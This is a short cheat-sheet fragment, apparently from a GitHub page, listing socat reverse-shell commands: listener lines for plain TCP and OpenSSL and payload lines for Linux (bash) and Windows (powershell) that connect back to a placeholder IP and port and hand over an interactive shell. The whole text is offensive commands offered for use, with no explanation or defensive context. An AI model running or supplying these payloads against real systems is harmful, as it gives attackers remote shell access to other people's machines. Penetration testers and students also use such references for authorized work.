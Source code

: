 + **Socat reverse-shell(listener)**:
`socat tcp-l:<port> file:`tty`,raw,echo=0`
`socat openssl-listen:<port>,cert=<cert.pem>,verify=0 file:`tty`,raw,echo=0`

+ **Socat reverse-shell(linux payload)**:
`socat tcp:<ip>:<port> exec:"bash -li",pty,stderr,sigint,setsid,sane`
`socat openssl:<ip>:<port>,verify=0 exec:"bash -li",pty,stderr,sigint,setsid,sane`

+ **Socat reverse-shell(windows payload)**:
  socat tcp:<ip>:<port> exec:"powershell.exe",pipes`
`socat openssl:<ip>:<port>,verify=0 exec:"powershell.exe",pipes`
